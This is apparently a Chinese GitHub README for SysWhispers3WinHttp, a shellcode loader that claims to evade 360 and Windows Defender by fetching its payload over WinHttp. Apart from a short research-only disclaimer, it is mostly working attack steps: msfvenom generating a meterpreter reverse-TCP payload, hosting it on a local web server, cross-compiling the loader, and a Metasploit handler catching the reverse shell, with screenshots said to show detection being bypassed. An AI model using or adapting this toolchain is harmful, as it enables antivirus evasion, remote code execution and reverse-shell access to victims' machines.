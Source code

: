 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，可免杀360核晶与Defender。

## 0x01 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x02 使用：

```
// 1. 使用msfvenom生成shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.110 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之HostFile功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址并使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -fpermissive -w -s -lwinhttp
```

## 0x03 演示：

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

360核晶截图（2023/04/23更新）
![360](https://user-images.githubusercontent.com/128464183/233817661-76d09fef-7817-4e5a-a236-871c4a300471.PNG)

Defender截图
![WDdemo](https://user-images.githubusercontent.com/128464183/227820977-8ae3dd14-76f4-4076-85a4-91ff2702ec61.PNG)

微步云沙箱截图
![threatbook](https://user-images.githubusercontent.com/128464183/233817665-3ff36fed-ec4e-442f-b837-18247edff7ee.PNG)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
